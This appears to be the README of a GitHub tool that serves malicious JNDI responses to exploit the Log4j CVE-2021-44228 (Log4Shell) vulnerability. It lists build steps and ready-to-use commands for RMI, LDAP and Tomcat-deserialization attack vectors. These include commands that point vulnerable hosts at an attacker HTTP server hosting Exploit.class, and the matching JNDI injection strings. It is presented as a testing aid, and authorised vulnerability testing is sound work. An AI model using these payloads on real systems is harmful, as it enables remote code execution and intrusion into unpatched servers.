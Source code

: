 
# Log4j-JNDIServer

This project will help to test the log4j CVE-2021-44228 vulnerability.

## Installation

1- Load the project on Intellij Idea
2- Build Project (CTRL + F9). This will create the jar file in /out folder

## Examples 

1-RMI Attack vector

`java -jar Log4j-JNDIServer.jar 1 <RMI_IP> <RMI_PORT> Exploit http://<ATTACKER_IP>:<ATTACKER_PORT>`

and host the Exploit.class using python -m http.server

Injection: {jndi:rmi://<RMI_IP>:<RMI_PORT>/Foo}

2-LDAP Attack Vector

java -jar Log4j-JNDIServer.jar 2 <LDAP_IP> <LDAP_PORT> http://<ATTACKER_IP>:<ATTACKER_PORT>/#Exploit

and host the Exploit.class using python -m http.server

Injection: {jndi:ldap://<LDAP_IP>:<LDAP_PORT>/Exploit}

3-Deserialization Attack Vector (Using Tomcat payload)

java -jar Log4j-JNDIServer.jar 3 <RMI_IP> <RMI_PORT>

Injection: {jndi:rmi://<RMI_IP>:<RMI_PORT>/Foo}
